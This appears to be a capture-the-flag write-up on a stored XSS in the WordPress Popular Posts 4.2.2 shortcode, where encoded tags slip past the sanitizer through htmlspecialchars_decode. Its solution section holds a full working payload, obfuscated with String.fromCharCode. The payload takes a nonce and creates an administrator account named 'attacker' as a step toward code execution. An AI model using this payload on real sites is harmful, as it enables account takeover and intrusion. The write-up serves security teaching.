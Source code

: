 # Idea
Shitty plugin `wordpress popular posts` with shortcode support. Bug has been (unintentionally) fixed in more recent versions.

Shortcodes can be used by authors in posts, although they are most likely only used for widgets.

The `wpp` shortcode can be used to trigger a sneaky XSS. This plugin allows custom HTML tags, but this runs through a sanitizer. Hence only certain tags (like `h1, b, ul,` ...) and specific attributes are allowed. As custom HTML tags are sanitized, this is a red harring.

File `wordpress-popular-posts-4.2.2\public\class-wordpress-popular-posts-public.php` (Line 369ff) contains this code:

```php
// is there a title defined by user?
if (
    !empty( $header )
    && !empty( $header_start )
    && !empty( $header_end )
) {
    $shortcode_content .= htmlspecialchars_decode( $header_start, ENT_QUOTES ) . apply_filters( 'widget_title', $header ) . htmlspecialchars_decode( $header_end, ENT_QUOTES );
}
```

`$header`, `$header_start` and `$header_end` are set by the user provided shorttags (c.f. `shortcode_atts`). As `htmlspecialchars_decode` is used to generate raw HTML output (god knows why), we can use html **ENCODED** custom tags to bypass the intial HTML filter. During generation of the shorttag HTML code, the previously encoded data gets decoded and we get our XSS :)

## Full solution
Payload for final Post:
```
[wpp post_html='stuff' header='Popular Posts' header_start='<h3>&lt;script&gt;eval(String.fromCharCode(118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,44,114,101,113,117,101,115,116,85,82,76,61,34,47,119,112,45,97,100,109,105,110,47,117,115,101,114,45,110,101,119,46,112,104,112,34,44,110,111,110,99,101,82,101,103,101,120,61,47,115,101,114,34,32,118,97,108,117,101,61,34,40,91,94,34,93,42,63,41,34,47,103,59,97,106,97,120,82,101,113,117,101,115,116,46,111,112,101,110,40,34,71,69,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,49,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,41,59,118,97,114,32,110,111,110,99,101,77,97,116,99,104,61,110,111,110,99,101,82,101,103,101,120,46,101,120,101,99,40,97,106,97,120,82,101,113,117,101,115,116,46,114,101,115,112,111,110,115,101,84,101,120,116,41,44,110,111,110,99,101,61,110,111,110,99,101,77,97,116,99,104,91,49,93,44,112,97,114,97,109,115,61,34,97,99,116,105,111,110,61,99,114,101,97,116,101,117,115,101,114,38,95,119,112,110,111,110,99,101,95,99,114,101,97,116,101,45,117,115,101,114,61,34,43,110,111,110,99,101,43,34,38,117,115,101,114,95,108,111,103,105,110,61,97,116,116,97,99,107,101,114,38,101,109,97,105,108,61,97,116,116,97,99,107,101,114,64,115,105,116,101,46,99,111,109,38,112,97,115,115,49,61,97,116,116,97,99,107,101,114,38,112,97,115,115,50,61,97,116,116,97,99,107,101,114,38,114,111,108,101,61,97,100,109,105,110,105,115,116,114,97,116,111,114,34,59,40,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,41,46,111,112,101,110,40,34,80,79,83,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,48,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,116,82,101,113,117,101,115,116,72,101,97,100,101,114,40,34,67,111,110,116,101,110,116,45,84,121,112,101,34,44,34,97,112,112,108,105,99,97,116,105,111,110,47,120,45,119,119,119,45,102,111,114,109,45,117,114,108,101,110,99,111,100,101,100,34,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,112,97,114,97,109,115,41,59))&lt;/script&gt;' header_end='</h3>']
```

Adds an user "attacker:attacker" with admin rights to WP. From there on RCE via Plugins/Themes/whatever to get the flag